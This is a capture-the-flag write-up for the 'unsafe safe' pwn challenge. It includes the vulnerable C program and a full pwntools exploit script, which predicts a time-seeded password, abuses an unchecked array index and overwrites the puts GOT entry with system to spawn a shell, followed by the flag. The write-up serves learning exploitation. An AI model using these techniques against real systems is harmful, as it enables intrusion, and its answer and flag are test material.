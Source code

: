 ## unsafe safe

```
Author: zran

So I just turned 17 and decided to make a bank account to deposit my money. This bank stores the money is safes, so it should be safe right?

nc ctf.tcp1p.com 1477
```
**Attachment**: [unsafe.zip](release/unsafe.zip)

We were given a zip file that contain an ELF binary, the source code, and some library file (including the interpreter). 

Here's some information about the binary:

![ELF Information](images/b35b1fb1832507e45563945737ef7a5b9ebbc4aee5b58170f6a1e550e72310e6.png)  

<details close><summary>unsafe.c</summary>
    
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

unsigned long safes[100] = {7955998170729676800};
char *exit_message = "Have a nice day!";

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void deposit() {
    int index = 0;
    int amount = 0;
    puts("Enter the safe number you want to deposit in (0-100): ");
    scanf("%d", &index);
    puts("Enter the amount you want to deposit: ");
    scanf("%d", &amount);
    safes[index] += amount;
}

void login() {
    unsigned long age, input, password;
    char pet_name[5] = "\0\0\0\0\0";
    puts("Input your age: ");
    scanf("%lu", &age);
    if (age < 17) {
        puts("Sorry, this is not a place for kids");
        exit(0);
    }
    puts("Input your pet name: ");
    scanf("%5c", pet_name);
    srand(time(NULL) * (*(short *)pet_name * *(short *)(pet_name + 2) + age));
    password = rand();
    puts("Input your password: ");
    scanf("%lu", &input);
    if (input != password) {
        puts("Password Wrong!");
        exit(0);
    }
}

int main() {
    init();
    login();
    deposit();
    deposit();
    deposit();
    puts(exit_message);
}
```
</details>

Information about the LIBC:

![LIBC Information](images/342e2a676076e552edce951d049dbf64fa1ebb3da405ea8fa5cad2ae2ebb0105.png)  

The program will call the `login()` function and will ask the user to to input data, including age, the name of a pet, and a password. There's a validation mechanism using `rand()` function to check the input. The randomization seed is also set in this function using the current time as an integer, so we can implement the same in our solver to bypass the validation.

Now, let's take a look at the `deposit()` function. The program will ask the user to input two datas, including a safe number that responsible where the data will be stored at (index based) and the amount or a value that the user want to stored. Because there is no boundaries check on user input for the index of `safes` varaible, it caused an Out Of Bound (OOB) vulnerability that can be exploited to overwrite a value by adding it with the desired value (the user's second input in the `deposit()` function).

The idea I used is to write the string "sh" at index 0 of the global variable `safes`. 

![Write "sh"](images/c6169f592adb8b023e1343f43b4d9740a3780edade867f6925522552b244cf3e.png)  

Then, overwrite the pointer to the string in the global variable `exit_message` at index 100, so it points to the address where "sh" is stored in `safes[0]`. 

![Overwrite strings pointer in exit_message](images/5401f703b841ff84c301134bc9bb20b0ff58a3bc71e9662e2cd45ff229e2238d.png)  

Afterward, overwrite the Global Offset Table (GOT) entry for the `puts()` function with the address of the system function. This way, when the program calls `puts(exit_message)` in the `main()` function, it will inadvertently call the `system()` function with "sh" as it arguments, then shell will be spawned.

![Overwrite puts GOT](images/12126ad77c170ea59ec5a1a9386c4eedc357d48cc06e0b7bee1d5b6a7a044821.png)  

Here's my exploit to solve this challenge.

<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys
import time
from ctypes import CDLL

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/unsafe"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 1477
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null, cdll=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            # b *login+0xa9
            # b *login+0xcd
            # b *deposit+0x4a
            # b *deposit+0xae
            b *main+0x40
            """
            gdb.attach(io, gdbscript=cmd)

    age = 20
    pet_name = b"\x00"*4

    io.sendlineafter(b": ", str(age).encode())
    io.sendlineafter(b": ", pet_name)
    seed = int(time.time()) * (0 * 0xa00 + age) & 0xFF_FF_FF_FF
    cdll.srand(seed)
    current_password = cdll.rand()
    io.sendlineafter(b": ", str(current_password).encode())

    where = 0
    what = u16(b"sh")
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    where = (elf.symbols["exit_message"] - elf.symbols["safes"])//8
    what = 0x2058
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    where = (elf.got["puts"] - elf.symbols["safes"])//8
    what = libc.symbols["system"] - libc.symbols["puts"]
    io.sendlineafter(b": ", str(where).encode())
    io.sendlineafter(b": ", str(what).encode())

    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
    libc = ELF("./libc.so.6")
    cdll = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
    exploit(io, libc, cdll)
``` 
</details>

![PWN3D](images/007b0d07897266ddc54234c7ca6aaee53983449902b014a30203601f46661f92.png)  

    
**Flag:** TCP1P{bYp45s_tH3_l091n_4nd_0v3rwR1te_pUt5_t0_sy5t3m_4Nd_g3t_5hELl}